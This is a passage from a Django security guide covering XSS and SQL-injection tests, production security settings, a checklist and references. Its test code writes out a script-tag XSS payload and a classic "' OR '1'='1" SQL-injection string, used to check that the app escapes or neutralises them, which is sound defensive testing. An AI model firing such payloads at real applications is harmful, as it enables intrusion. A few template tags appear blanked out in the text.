from django.contrib.auth import get_user_model
from django.test import TestCase
from django.urls import reverse

from .models import Comment


class CommentXSSTests(TestCase):
    def test_comment_is_escaped(self):
        user = get_user_model().objects.create_user(
            username="tester",
            password="strong-test-password",
        )

        Comment.objects.create(
            author=user,
            body='<script>alert("xss")</script>',
        )

        self.client.force_login(user)
        response = self.client.get(reverse("comment-list"))

        self.assertContains(
            response,
            "&lt;script&gt;",
            html=False,
        )
        self.assertNotContains(
            response,
            '<script>alert("xss")</script>',
            html=False,
        )
```

---

## 7.3 Testing SQL Injection-Like Input

```python
from django.contrib.auth import get_user_model
from django.test import TestCase


class UserSearchTests(TestCase):
    def test_search_treats_sql_payload_as_data(self):
        User = get_user_model()

        User.objects.create_user(
            username="normal-user",
            password="strong-test-password",
        )

        payload = "' OR '1'='1"

        result = User.objects.filter(
            username=payload
        )

        self.assertFalse(result.exists())
```

This test confirms that the payload is treated as a literal field value.

---

## 7.4 Test Security Outcomes

Useful security assertions include:

```text
Missing CSRF token       -> 403
Invalid CSRF token       -> 403
Untrusted HTML           -> rendered as text
Unauthorized user        -> 302, 401, or 403
Unexpected sort field    -> rejected or replaced with default
Oversized input          -> validation error
Webhook bad signature    -> 403
Sensitive page over HTTP -> redirected to HTTPS
```

---

# 8. Production Security Configuration

Django's built-in protections require correct deployment settings.

## 8.1 Baseline Settings

```python
import os


DEBUG = False

SECRET_KEY = os.environ["DJANGO_SECRET_KEY"]

ALLOWED_HOSTS = [
    "app.example.com",
]

CSRF_TRUSTED_ORIGINS = [
    "https://app.example.com",
]

SECURE_SSL_REDIRECT = True

SESSION_COOKIE_SECURE = True
CSRF_COOKIE_SECURE = True

SESSION_COOKIE_HTTPONLY = True
SESSION_COOKIE_SAMESITE = "Lax"
CSRF_COOKIE_SAMESITE = "Lax"

SECURE_HSTS_SECONDS = 31536000
SECURE_HSTS_INCLUDE_SUBDOMAINS = True
SECURE_HSTS_PRELOAD = True

SECURE_CONTENT_TYPE_NOSNIFF = True

X_FRAME_OPTIONS = "DENY"
```

HSTS should be enabled carefully. Confirm that the domain and required subdomains are fully HTTPS-ready before using long durations, subdomain inclusion, or preload.

---

## 8.2 Reverse Proxy Configuration

When Django runs behind a trusted reverse proxy that terminates HTTPS, Django must correctly identify secure requests.

A common configuration is:

```python
SECURE_PROXY_SSL_HEADER = (
    "HTTP_X_FORWARDED_PROTO",
    "https",
)
```

Use this only when:

- The proxy is controlled and trusted.
- The proxy removes or overwrites incoming forwarded headers.
- The infrastructure guarantees the header's meaning.

A wrong proxy configuration can weaken HTTPS-dependent security behavior, including CSRF origin and referer validation.

---

## 8.3 `ALLOWED_HOSTS`

```python
ALLOWED_HOSTS = [
    "app.example.com",
    "api.example.com",
]
```

Django validates the request host against this list.

Avoid:

```python
ALLOWED_HOSTS = ["*"]
```

unless the application performs its own strict host validation.

---

## 8.4 Keep `DEBUG` Disabled

```python
DEBUG = False
```

A production debug page may expose:

- Source-code excerpts
- Local variables
- Environment details
- Installed packages
- Paths
- Configuration information
- SQL queries

---

## 8.5 Run Django's Deployment Checks

```bash
python manage.py check --deploy
```

Run it using production settings:

```bash
DJANGO_SETTINGS_MODULE=config.settings.production \
python manage.py check --deploy
```

The command identifies common deployment and security configuration problems. It supplements code review and infrastructure review; it is not a full penetration test.

---

## 8.6 Keep Django Updated

Security protection also depends on using a supported Django release and applying security updates.

Recommended operational flow:

```text
Security advisory released
        |
        v
Review affected Django versions
        |
        v
Upgrade dependency
        |
        v
Run tests and deployment checks
        |
        v
Deploy patched version
```

Pin dependencies deliberately and use an automated dependency scanner in CI.

---

# 9. Practical Security Checklist

## Request and CSRF

- Keep `CsrfViewMiddleware` enabled.
- Include `` in internal POST forms.
- Send `X-CSRFToken` for session-authenticated AJAX requests.
- Keep GET, HEAD, OPTIONS, and TRACE free from side effects.
- Use `csrf_exempt` only when another verification mechanism exists.
- Configure `CSRF_TRUSTED_ORIGINS` narrowly.
- Use HTTPS and secure cookies in production.

## Templates and XSS

- Keep auto-escaping enabled.
- Render untrusted content with normal `{{ variable }}` syntax.
- Quote HTML attribute values.
- Use `json_script` for server data consumed by JavaScript.
- Use `textContent` instead of `innerHTML` for plain text.
- Treat `safe`, `mark_safe`, and `` as security-sensitive.
- Sanitize rich HTML using an explicit allowlist.
- Add CSP as defense in depth.

## Database and SQL Injection

- Prefer QuerySets and ORM expressions.
- Use parameterized raw SQL when raw SQL is unavoidable.
- Pass values separately from SQL strings.
- Never interpolate user input with f-strings, `.format()`, or `%`.
- Do not quote SQL placeholders.
- Allowlist dynamic column names, ordering, and operators.
- Use a least-privilege database account.

## Deployment

- Set `DEBUG = False`.
- Keep `SECRET_KEY` outside source control.
- Configure exact `ALLOWED_HOSTS`.
- Redirect HTTP to HTTPS.
- Enable secure session and CSRF cookies.
- Configure the reverse proxy carefully.
- Run `python manage.py check --deploy`.
- Keep Django and dependencies supported and patched.

---

# 10. Key Takeaways

## CSRF

```text
Problem:
    A malicious site sends a state-changing request using a victim's cookies.

Django defense:
    CSRF cookie + submitted token + middleware + origin checks.

Developer responsibility:
    Use unsafe HTTP methods for changes, include the token, and avoid unnecessary
    csrf_exempt usage.
```

## XSS

```text
Problem:
    Untrusted data is interpreted as executable browser code.

Django defense:
    Template auto-escaping.

Developer responsibility:
    Do not bypass escaping, use context-safe output, sanitize allowed rich HTML,
    and keep client-side DOM operations safe.
```

## SQL Injection

```text
Problem:
    User input changes the structure of a SQL statement.

Django defense:
    ORM and database-driver parameterization.

Developer responsibility:
    Avoid SQL string construction, parameterize raw SQL, and allowlist dynamic
    identifiers.
```

## Final Mental Model



> Django provides secure defaults, but application security depends on preserving the boundary between **untrusted data** and **executable instructions**.

---

# 11. Official References

- Django security overview:  
  <https://docs.djangoproject.com/en/6.0/topics/security/>

- Django CSRF protection:  
  <https://docs.djangoproject.com/en/6.0/ref/csrf/>

- Django templates:  
  <https://docs.djangoproject.com/en/6.0/topics/templates/>

- Django raw SQL queries:  
  <https://docs.djangoproject.com/en/6.0/topics/db/sql/>

- Django deployment checklist:  
  <https://docs.djangoproject.com/en/6.0/howto/deployment/checklist/>

- Django download and supported releases:  
  <https://www.djangoproject.com/download/>
